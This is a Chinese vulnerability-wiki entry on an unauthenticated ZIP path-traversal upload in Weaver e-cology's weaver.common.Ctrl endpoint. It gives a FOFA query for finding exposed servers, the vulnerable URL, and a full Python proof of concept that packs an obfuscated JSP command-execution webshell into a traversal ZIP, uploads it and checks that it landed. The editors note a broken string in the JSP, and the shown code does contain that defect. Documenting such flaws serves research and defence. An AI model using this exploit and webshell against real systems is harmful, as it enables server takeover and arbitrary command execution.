


# 泛微e-cology / cloudstore weaver.common.Ctrl ZIP路径穿越写入

## 条目说明

- 对象与具体问题：泛微e-cology / cloudstore；weaver.common.Ctrl ZIP路径穿越写入
- 版本、配置及部署条件：版本未知；ZIP解压及JSP可执行
- 认证与权限前提：脚本无cookie
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与weaver-common-Ctrl篇同脚本/路径/来源，本篇JSP out.print字符串被实际换行断开，新增编译错误
- 同样200即判上传成功和ZipFile未显式关闭不足；根因为ZIP成员路径穿越
- 合并时优先完整代码版本，保留固定commit原出处

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

泛微OA weaver.common.Ctrl 存在任意文件上传漏洞，攻击者通过漏洞可以上传webshell文件控制服务器

### 漏洞影响

```
泛微OA
```

### 网络测绘

```
app="泛微-协同办公OA"
```

### 漏洞复现

存在漏洞的路径为

```plain
/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp
```

请求包为




使用POC文件上传




### 漏洞POC

```python
import zipfile
import random
import sys
import requests


def generate_random_str(randomlength=16):
  random_str = ''
  base_str = 'ABCDEFGHIGKLMNOPQRSTUVWXYZabcdefghigklmnopqrstuvwxyz0123456789'
  length = len(base_str) - 1
  for i in range(randomlength):
    random_str += base_str[random.randint(0, length)]
  return random_str

mm = generate_random_str(8)

webshell_name1 = mm+'.jsp'
webshell_name2 = '../../../'+webshell_name1

def file_zip():
    shell = """<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.BASE64Decoder" %>
<%
    if(request.getParameter("cmd")!=null){
        BASE64Decoder decoder = new BASE64Decoder();
        Class rt = Class.forName(new String(decoder.decodeBuffer("amF2YS5sYW5nLlJ1bnRpbWU=")));
        Process e = (Process)
                rt.getMethod(new String(decoder.decodeBuffer("ZXhlYw==")), String.class).invoke(rt.getMethod(new
                        String(decoder.decodeBuffer("Z2V0UnVudGltZQ=="))).invoke(null, new
                        Object[]{}), request.getParameter("cmd") );
        java.io.InputStream in = e.getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
    """   ## 替换shell内容
    zf = zipfile.ZipFile(mm+'.zip', mode='w', compression=zipfile.ZIP_DEFLATED)
    zf.writestr(webshell_name2, shell)

def GetShell(urllist):
    file_zip()
    print('上传文件中')
    urls = urllist + '/weaver/weaver.common.Ctrl/.css?arg0=com.cloudstore.api.service.Service_CheckApp&arg1=validateApp'
    file = [('file1', (mm+'.zip', open(mm + '.zip', 'rb'), 'application/zip'))]
    requests.post(url=urls,files=file,timeout=60, verify=False)
    GetShellurl = urllist+'/cloudstore/'+webshell_name1
    GetShelllist = requests.get(url = GetShellurl)
    if GetShelllist.status_code == 200:
        print('利用成功webshell地址为:'+GetShellurl)
    else:
        print('未找到webshell利用失败')

def main():
    if (len(sys.argv) == 2):
        url = sys.argv[1]
        GetShell(url)
    else:
        print("python3 poc.py http://xx.xx.xx.xx")

if __name__ == '__main__':
    main()
```

### 参考文章

[原漏洞公开地址](https://github.com/GTX8090TI/GTX8090TI.github.io/blob/6dd04a19bbc4fcef436e0b2f05c15bc98ac0c852/2021/05/02/泛微OA-前台GetShell复现/index.html)


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
